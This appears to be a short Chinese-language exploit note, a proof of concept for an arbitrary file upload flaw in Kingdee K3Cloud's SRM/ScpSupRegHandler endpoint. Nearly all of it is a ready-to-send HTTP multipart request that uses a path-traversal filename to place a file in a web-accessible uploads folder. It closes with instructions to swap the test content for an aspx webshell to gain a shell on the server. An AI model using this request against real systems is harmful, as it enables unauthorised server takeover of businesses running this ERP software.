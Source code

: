 # -
访问接口  
http://127.0.0.1/k3cloud/SRM/ScpSupRegHandler  

POC：  
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1  
Host: 127.0.0.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0   
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8   
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2   
Accept-Encoding: gzip, deflate, br  
Connection: keep-alive  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: none  
Sec-Fetch-User: ?1  
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061  
Content-Length: 1782  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="dbId_v"  
  
.  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="FID"  
  
2023  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/kingdee.txt"  
Content-Type: text/plain  
  
test  
--2ac719f8e29343df94aa4ab49e456061—-  

上传成功访问路径  
http://127.0.0.1/k3cloud/uploadfiles/kingdee.txt  
替换poc内上传内容为aspx马，提交上传getshell  
http://127.0.0.1/k3cloud/uploadfiles/kingdee.aspx
